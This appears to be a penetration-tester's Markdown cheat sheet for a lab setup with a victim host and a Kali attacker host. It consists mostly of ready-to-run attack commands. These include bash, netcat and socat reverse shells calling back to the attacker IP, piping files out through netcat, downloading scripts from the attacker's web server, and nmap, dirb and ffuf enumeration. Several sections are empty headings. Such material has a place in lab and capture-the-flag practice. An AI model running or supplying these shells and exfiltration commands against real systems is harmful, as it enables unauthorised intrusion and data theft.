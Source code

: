 # Cheat sheet with my popular tools

> Victim host 10.10.10.77 and Kali host 10.10.10.10

![](https://i.pinimg.com/originals/2a/db/1e/2adb1e4dbe67ce0ff39c4b080f015aa3.jpg)

## Useful Commands

### Create web server

* #### With Python

```
python3 -m http.server 8888
``` 

```
python -m SimpleHTTPServer 8888
```

### Upgrade reverse shell

* #### With Socat

*Victim:* 
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat
chmod +x socat
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444
```
        
*Kali:*
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

* #### With Python

*Victim:* 
```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

### Send files

* #### With netcat

*Victim:*
```
cat file.txt | nc -q 0 10.10.10.10 4444
```

*Kali:*
```
nc -lvp 4444 > file.txt
```

* #### With web server

*Kali:*
```
python3 -m http.server 8888 
```

```
python -m SimpleHTTPServer 8888
```

*Victim:* 
```
wget http://10.10.10.10:8888/something.sh -O something.sh
```

### Reverse shells

* #### With bash

```
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

* #### With netcat

```
nc -e /bin/sh 10.10.10.10 4444
```

* #### Listener

```
nc -lvp 4444
```

## Enumeration

* #### Nmap

TCP Scan:

```
nmap -sV -sC -p- 10.10.10.77
```

UDP Scan:

```
nmap -sU -sV -p- 10.10.10.77
```

### If Web Server

* #### dirb

Quick directory busting

```
dirb http://10.10.10.77/
```

* #### FuFF

VHOST Discovery

```
ffuf -w subdomains-top1million-110000.txt -u https://10.10.10.10/ -H "Host:FUZZ.10.10.10.10"
```

## Privilege Escalation

## Reverse Engineering

## Some Scripts

## References
